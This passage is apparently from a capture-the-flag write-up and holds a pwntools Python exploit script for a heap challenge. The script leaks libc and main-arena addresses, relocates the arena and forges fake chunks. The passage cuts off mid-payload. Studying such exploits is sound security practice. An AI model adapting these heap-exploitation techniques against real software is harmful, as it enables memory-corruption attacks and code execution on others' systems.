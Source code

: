 {% highlight python %}
#!/usr/bin/python

from pwn import *
import sys

def alloc(size, data, sendn = True):
    r.sendline(size)
    r.recvuntil("Buffer:\n")
    if sendn:
        r.sendline(data)
    else:
        r.send(data)
    return r.recvline()

def exploit(r):
    r.recvuntil("Size:\n")

    log.info("Leaking libc addresses")

    alloc("0"*0x700+"160", "E")
    alloc("10", "A")
    alloc("40", "B")
    alloc("80", "C")
    alloc("100", "D")
    alloc("2048", "")
    
    LIBCLEAK = u64(r.recvline()[7:7+8])
    MAINARENA = LIBCLEAK - 88
    LIBC = LIBCLEAK - 0x3c3b78

    log.info("LIBC leak       : %s" % hex(LIBCLEAK))
    log.info("LIBC            : %s" % hex(LIBC))
    log.info("MAIN ARENA      : %s" % hex(MAINARENA))
    log.info("Moving main arena to mmaped area")

    alloc(str((MAINARENA + 96 + 8 - 8)), "")
    log.info("Leaking next main arena")

    alloc("10", "A")
    alloc("40", "B")
    alloc("80", "C")
    alloc("100", "D")
    alloc("2048", "")

    NEXTARENA = u64(r.recvline()[7:7+8]) - 0x78

    log.info("NEXT ARENA      : %s" % hex(NEXTARENA))
    log.info("Prepare memory area below next arena with fake chunk sizes")

    payload = flat("A"*32, p64(0),
                    p64(0x25), p64(0), p64(0x25),
                    "B"*208, p64(0), p64(0x25),
                    "B"*2712)

    alloc("3000", payload, False)

    log.info("Overwrite one byte of next arena top")
    alloc(str((NEXTARENA+0x7a)), "")
    
    log.info("Allocate chunk inside next main arena")

    payload = flat( p64(NEXTARENA+0x60), p64(0)*3,
                    p64(NEXTARENA+0x298), p64(0)*5,
                    p64(NEXTARENA+0xf8), p64(0),
                    p64(0)*7, p64(0x81),
                    p64(NEXTARENA+0x150), p64(NEXTARENA+0x150),
                    p64(0), p64(0),
                    p64(NEXTARENA+0x150), p64(0),
                    p64(NEXTARENA+0x1b0), p64(0),
                    p64(0x414141), p64(0x424242),
